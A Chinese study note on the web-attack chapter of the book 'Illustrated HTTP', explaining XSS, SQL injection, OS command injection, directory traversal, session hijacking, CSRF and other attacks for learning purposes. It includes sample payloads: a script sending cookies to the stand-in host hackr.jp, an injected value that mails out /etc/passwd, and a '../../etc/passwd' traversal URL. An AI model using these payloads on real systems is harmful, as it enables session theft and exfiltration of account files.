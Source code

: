 ```yaml
---
title: 11.Web 的攻击技术
date: 2020-11-29 01:05:47
slug: /pages/a5ee56/
categories: 
  - 计算机基础
  - 《图解HTTP》笔记

---
```


## 思维导图

> 思维导图来自： [霸天的前端笔记](https://www.zhihu.com/column/c_57862727)

![preview](./assets/img/v2-c15130d9bcc0d91811e94d97286362f8_r.jpg)

![preview](./assets/img/v2-f7acf7cc1fa50e5add19a5caa6d0cf7d_r.jpg)

![preview](./assets/img/v2-e1002463a98b27c74bde5dda9c855575_r-20201129010743975.jpg)

## 针对 Web 的攻击模式

![image-20201129012032325](./assets/img/image-20201129012032325.png)

**被动攻击的模式**：

![image-20201129012225331](./assets/img/image-20201129012225331.png)

**利用用户的身份攻击企业内部网络**

可以攻击企业内网

![image-20201129012336194](./assets/img/image-20201129012336194.png)

## 因输出值转义不完全引发的安全漏洞

### 什么是输出值不转义？

Web 应用的安全对策：

- 客户端验证：客户端(JavaScript)验证主要是尽早辨识输入错误，UI 体验的功能
- Web端验证
  - 输入值验证：业务逻辑检查 & 字符编码检查等
  - **输出值转义：转义不完全时，会因触发攻击者传入的攻击代码**

### 1. 跨站脚本攻击（Cross-Site Scripting，XSS）

**什么是XSS**：通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。

**XSS的后果**：

- 虚假输入表单骗取个人信息
- 窃取用户Cookie值
- 显示伪造的文章或文章

**XSS案例**：

1.表单骗取个人信息

```html
<div class="logo"> 
  <img src="/img/logo.gif" alt="E! 拍卖会" />
</div> 

<form action="http://example.jp/login" method="post" id="login">     
    <div class="input_id"> ID 
        <input type="text" name="ID" value="">
        <script>var f=document.getElementById("login");</script>
    </div>
</form>
<!-- input 后面带着 script 脚本，就不知不觉获取了信息了 --!>
```

2.Cookie 窃取攻击

```html
<script src=http://hackr.jp/xss.js></script>
```

```javascript
//文件: http://hackr.jp/xss.js
var content = escape(document.cookie); 
document.write("<img src=http://hackr.jp/?"); document.write(content); 
document.write(">");
// 通过这种方式，就以请求图片的方式，把自己的Cookie信息发送出去了。
```

### 2. SQL注入攻击（SQL Injection）

**SQL 注入** 是攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构的攻击。

**SQL注入的案例**：

**正常的请求**：`http://example.com/search?q=小米`

对应的SQL为 `select * from bookstort where author=小米 and flag=1 ` 

**SQL注入请求**：`http://example.com/search?q=小米 --`

对于SQL为 `select * from bookstort where author=小米 -- and flag=1`

由于SQL 中 `--` 是注释，就把后面的 flag 条件给省略了。

如果这个条件是一些保密信息的限制条件的话，就容易造成损失。

### 3. OS 命令注入攻击（OS Command Injection）

**OS命令攻击** 是通过 Shell 来调用操作系统命令。

**OS注入攻击的案例**:

```php
// php中发送邮件的一段代码
my $adr = $q->param('mailaddress'); 
open(MAIL, "| /usr/sbin/sendmail $adr");
```

正常是邮箱地址 `hack@example.jp`

OS注入是 `; cat /etc/passwd | mail hack@example.jp` ，拼接后就是

`| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp`

带入了系统的账户信息一起发送了

### 4. 邮件首部注入攻击（Mail Header Injection）

邮件首部注入是指通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。

### 5. 目录遍历攻击（Directory Traversal）

目录遍历攻击是指对本无意公开的文件目录， 通过非法截断其目录路径后，达成访问目的的一种攻击。案例如下:

```
http://example.com/read.php?log=0401.log # 正常
http://example.com/read.php?log=../../etc/passwd # 获取账户信息
```



## 因设置或设计上的缺陷引发的安全漏洞

- **强制浏览（Forced Browsing）**：强制浏览漏洞是指从安置在 Web 服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。

  比如对用户的私密照片没有做权限管理，使得任何人只要知道URL就可以访问。

- **不正确的错误消息处理（Error Handling Vulnerability）**: 一些Web应用的错误信息包含了对攻击者有利的信息。

- **开放重定向功能（Open Redirect）**：对指定的任意 URL 作重定向跳转，有可能导致用户被诱导到恶意Web网站

## 因会话管理疏忽引发的安全漏洞

- **会话劫持（Session Hijack）**：会话劫持是指攻击者通过某种手段拿到了用户的会 话 ID，并非法使用此会话 ID 伪装成用户，达到攻击的目的。

  获取 SessionID 的方式有：

  - 非正规的生成方法推测会话 ID
  - 窃听或 XSS 攻击
  - 会话固定攻击（Session Fixation）强行获取会话 ID：强迫用户使用自己固定的SID进行登录

- **跨站点请求伪造（Cross-Site Request Forgeries，CSRF）**：强制对 **已完成认证的用户** 进行非预期的个人信息或设定信息等某些状态更新。
  比如嵌入某些修改信息的URL，用户在不知觉的情况下就实现了修改的操作，网站也无法区分。

## 其他安全漏洞

### 密码破解

一般破解的手段：

- 试错法：穷举、字典攻击（其他Web网站的密码）
- 已加密密码进行破解：网站一般不会以明文存储密码，而是通过 散列函数 或 加盐的操作进行加密。此类的破解方式有：穷举、彩虹表、获取密钥

### 点击劫持

通过透明遮罩覆盖原先的图像

### DoS 攻击（Denial of Service attack）

**DoS 攻击**是一种让运行中的服务呈停止状态的攻击。服务器无法区分正常请求和攻击请求，使得服务瘫痪。

### 后门程序（Backdoor）

后门程序是指开发设置的隐藏入口，用于调试和测试使用。